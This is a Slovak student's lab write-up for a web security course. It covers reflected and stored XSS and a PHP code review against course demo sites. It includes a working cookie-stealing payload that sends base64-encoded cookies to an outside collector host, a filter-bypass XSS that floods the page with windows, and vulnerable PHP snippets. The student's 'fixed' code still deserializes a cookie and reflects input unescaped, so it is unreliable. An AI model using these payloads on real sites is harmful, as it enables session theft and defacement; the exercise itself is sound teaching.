









# Cvičenie 3 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 3.1 Hello XSS

- Zistite, či váš prehliadač obsahuje XSS auditor a ako funguje. (blokuje JS alebo celú stránku?)
- Stránka “hello.php” je zraniteľná na reflected XSS.
- Nájdite a zneužite zraniteľnosť na zobrazenie “hello world” správy cez javascript.
- Svoje finálne URL a zistenia zdokumentujte


Do input field som zadal

```js
<script>console.log('hello world')</script>
```
, čo mi vypíše string v command line. Prípadne sa dá ešte použíť 

```js
<script>alert('hello world')</script>
```
, čo mi hello world zobrazí ako alert







URL obsahuje v premennej **name** môj javascript kód.

## 3.2 Exfiltration using reflected XSS

- Využite nájdenú zraniteľnosť z 3.1 na vykonanie reflected XSS útoku.
- Získajte pomocou javascriptu obsah používateľových cookies, zakódujte ich do base64 reťazca a cez XMLHttpRequest (XHR) ich exfiltrujte cez GET request na: https://dev.netvor.sk/ex/?ami=ais_login&data=exfiltrovane_data
- Javascript najskor otestujte a odlaďte na svojom prehliadači.
- Pre získanie exfitrovaných dát navštívte stránku: https://dev.netvor.sk/ex/data/ais_login.txt


Zobrazenie cookie sa dá pomocou document.cookie
```js
<script> alert(document.cookie); </script>
```



aby som si cookie mohol skopírovať, zobrazil som si cookie cez console.log a zaenkódoval cookie do base64:

```js
<script>console.log(document.cookie)</script>
```

Cookie encodnute v base64: **SVA9ODUuMjM3LjIzNC4xMjc7IFVBPU1vemlsbGElMkY1LjAlMjAlMjhXaW5kb3dzJTIwTlQlMjAxMC4wJTNCJTIwV2luNjQlM0IlMjB4NjQlMjklMjBBcHBsZVdlYktpdCUyRjUzNy4zNiUyMCUyOEtIVE1MJTJDJTIwbGlrZSUyMEdlY2tvJTI5JTIwQ2hyb21lJTJGMTE3LjAuMC4wJTIwU2FmYXJpJTJGNTM3LjM2**

Potom som nahral cookie cez url:

https://dev.netvor.sk/ex/?ami=xviest&data=SVA9ODUuMjM3LjIzNC4xMjc7IFVBPU1vemlsbGElMkY1LjAlMjAlMjhXaW5kb3dzJTIwTlQlMjAxMC4wJTNCJTIwV2luNjQlM0IlMjB4NjQlMjklMjBBcHBsZVdlYktpdCUyRjUzNy4zNiUyMCUyOEtIVE1MJTJDJTIwbGlrZSUyMEdlY2tvJTI5JTIwQ2hyb21lJTJGMTE3LjAuMC4wJTIwU2FmYXJpJTJGNTM3LjM2


Keď idem na url 
https://dev.netvor.sk/ex/data/xviest.txt tak si viem cookie zobraziť.

Vyvtoril som si kód v javascripte:

```js
var cookie = document.cookie;
var request = new XMLHttpRequest();

request.open("GET", "https://dev.netvor.sk/ex/?ami=xviest&data=" + btoa(cookie));
request.send();
```


Kód som potom enkódoval do url, ktorú posielam janovi na otvorenie, keď jano klikne na link, zobrazí sa mi jeho cookie:

```
https://xviest.bit.demo-cert.sk/hello.php?name=<script>var%20cookie%20=%20document.cookie;var%20request%20=%20new%20XMLHttpRequest();request.open("GET",%20"https://dev.netvor.sk/ex/?ami=xviest%26data="%20%2B%20btoa(cookie));request.send();</script> 
```



Dekódované cookie:

**SuperSecretAdminCookie=krokodil123; UA=Mozilla%2F5.0%20%28X11%3B%20Linux%20x86_64%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20HeadlessChrome%2F107.0.5296.0%20Safari%2F537.36; IP=147.175.204.182**


## 3.3 Break the web using stored XSS
- Stránka “chat.php” obsahuje stored XSS zranitelnosť.
- Nájdite deravú premennú, obídte anti-XSS ochranu v kóde a znefunkčnite stránku pre budúcich návštevníkov.
- Extra body za kreatívnu formu znefunkčnenia :) (html/css/javacript/demo/...)

Najprv som skúsil zadať iba obyčajný message, ktorý sa následne zobrazil na stránke.


Tak som skúsil zadať do pola message <a href=google.com>klikni sem</a>, toto ale nešlo, lebo som nezadal aj protokol.


Nakoniec sa mi podarilo používateľa po kliknutí redirectnuť na gif pomocou 
```html
<a href=https://media.tenor.com/00-cEC0EPzsAAAAC/ha-haha.gif>You won 10000</a>
```




Následne som ešte skúsil zadať rovnaký input do pola **Name**, ale tu mi kód nefungoval:



Vycraftil som si javascript kód, ktorý vo while cykle stále otvára nové taby a okná v prehliadači.

```html
<script>window.close(); while(1){window.open("https://media.tenor.com/cvyRUp3tQWEAAAAC/apex-mirage.gif", "_blank");window.open("https://tenor.com/sk/view/oh-yeah-vector-despicable-me-dance-gif-16621015", "", "width=100%, height=100%");}</script>
```

Keď som to do input field zadal takto, vyhodilo mi to, že XSS attack detected, tak som skúsil za script pridať medzeru, takže výsledný kód vyzerá takto:

```html
<script >window.close(); while(1){window.open("https://media.tenor.com/cvyRUp3tQWEAAAAC/apex-mirage.gif", "_blank");window.open("https://tenor.com/sk/view/oh-yeah-vector-despicable-me-dance-gif-16621015", "", "width=100%, height=100%");}</script >
```

Toto už fungovalo a chat je znefunkčnený.


Stránku sa mi podarilo čiastočne znefunkčniť aj pridaním ```<iframe>```, ktorý som neuzavrel. Síce sa každý komentár ukladal, ale vkladal sa do iframe a tým pádom sa nevykresloval.


## 3.4 Code review
- Na adrese https://bit.demo-cert.sk/derave.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problém odstrániť, prípadne opravte kód.
- Výsledný okomentovaný zdroják zahrnte do odovzdanej dokumentácie a odovzdajte do AIS. Ak odovzdávate PDF, vyskúšajte použiť nejaký code highlighter.


1. Zraniteľnosť na sql injection **CWE identifikátor: CWE-89**

```php
$sql = "SELECT * FROM users WHERE login='{$_REQUEST['login']}' AND password='{$_REQUEST['password']}'"; 
	$user = sql_fetch($sql);
```

Nikde nie je žiadny check aké dáta vstupujú do query, žiadna sanitizácia vstupu.

**Odporúčanie**

Escape characterov, napríklad použitím regexu a obmedzením dĺžky vstupu (napríklad takto)

---

2. Zraniteľnosť command injection **CWE identifikátor: CWE-78**

```php
if (@$_REQUEST['logout']) {
	system("remove-web-session {$user['id']}"); 
	setcookie("auth", null);
	header('location: index.php');
	exit;
}
```

V aplikácii je system() funkcia, kde sa dá vložiť nejaký system command, ktorý sa vykoná.

**Odporúčanie**

Escapeovať používateľský vstup, nepoužívať system() funkciu, uistiť sa, že je používateľ najprv autentikovaný.

---

3. Nehashovanie hesiel v DB **CWE identifikátor: CWE-256**

```php
if (@$_REQUEST['password'] != "") {
	$sql = "SELECT * FROM users WHERE login='{$_REQUEST['login']}' AND password='{$_REQUEST['password']}'"; 
	$user = sql_fetch($sql);
}
```

Vyzerá, že pri login sa porovnáva iba plaintext heslo z DB, ktoré nie je zahasované, čo znamená, že pri úniku údajov databázy má každý rovno prístup k heslám.

**Odporúčanie**

Použiť napríklad funkciu bcrypt() na hashovanie hesiel pri zápise do DB.

---

4. Zraniteľnosť na file inclusion **CWE identifikátor: CWE-98**


```php
if (@$_GET['page']) {
	include("pages/".$_GET['page']);
} else {
	include("pages/index.txt");
}
```

V kóde sa používa include a nikde sa nevaliduje vstup.

**Odporúčanie**

Dal by sa použiť whitelist povolených stránok na ktoré sa dá dostať, v prípade, že by zadaná stránka nebola vo whiteliste, vrátilo by to nejakú error message.

---

5. Zraniteľnosť XSS **CWE identifikátor: CWE-79**

```php
if (empty($user)) {
		echo "<h1>Pouzivatel {$_REQUEST['login']} neexistuje!</h1>";
	}
```

Hodnota ```$_REQUEST['login']``` sa priamo vkladá do html, čím vie útočník vykonať javascript kód.


**Odporúčanie**

Na opravu sa dá použiť funkcia htmlspecialchars(), ktorá zabezpečí, že input sa nechová ako HTML alebo JS kód.

---

6. Error control operator - V kóde je veľa "@", čo znamená, že sú potlačené upozornenia na chyby v kóde.

---
---


```php
<?php

require_once('config.php.inc'); 
require_once('lib/database.inc');

// restore session
if (!empty($_COOKIE['auth']))
	$user = unserialize($_COOKIE['auth']);

// login handler here
if (!empty($_REQUEST['password'])) {
	$login = $_REQUEST['login'];
	$password = $_REQUEST['password'];
	if (strlen($login) <= 30){ // check for login length
		
		//escaping characters
		$login = mysqli_real_escape_string($login);
		$password = mysqli_real_escape_string($password);

		$sql = "SELECT * FROM users WHERE login='$login' AND password='$password'"; 
		$user = sql_fetch($sql);

		if (empty($user)) {
			//preventing xss by not allowing html or js to be rendered / executed
			echo "<h1>Pouzivatel" . htmlspecialchars($login) . "neexistuje!</h1>";
		}
		else {
			setcookie("auth", serialize($user));
		}
	}
}
else{
	echo "Please fill in password field";
}

// logout handler
if (!empty($_REQUEST['logout'])) {
	$id = (int)$user['id']; //storing id to variable and ensuring correct datatype
	$func = "remove-web-session $id";
	$func = escapeshellcmd($func); //escaping shell commands

	shell_exec($func); //using shell_exe instead of system
	setcookie("auth", null);
	header('location: index.php');
	exit;
}

if (!empty($user)) {
	echo <<<EOT
Vitaj {$user['name']} 
<a href="?logout=1">Odhlasenie</a><hr/>
EOT;

} else {
	echo <<<EOT
<form method=post>
<input type=text name=login value="{$_REQUEST['login']}" />
<input type=text name=password />
<input type=submit value=prihlas />
</form>
EOT;
}

$page = "";
if (!empty($_GET['page'])) {
	$page = $_GET['page'];
}
else{
	$page = 'index.txt'; //defaulting index page if no page is selected
}
$allowed_pages = array('page1', 'page2', 'page3'); //array of allowed pages

if(in_array($page, $allowed_pages)){ //check if page is in whitelisted array
	$path = "pages/{$page}";
	if (file_exists($path)){ //checking if file path exists
		include($path);
	}
	else{
		echo "Not found";
	}
}
else{
	echo "Invalid page";
}
```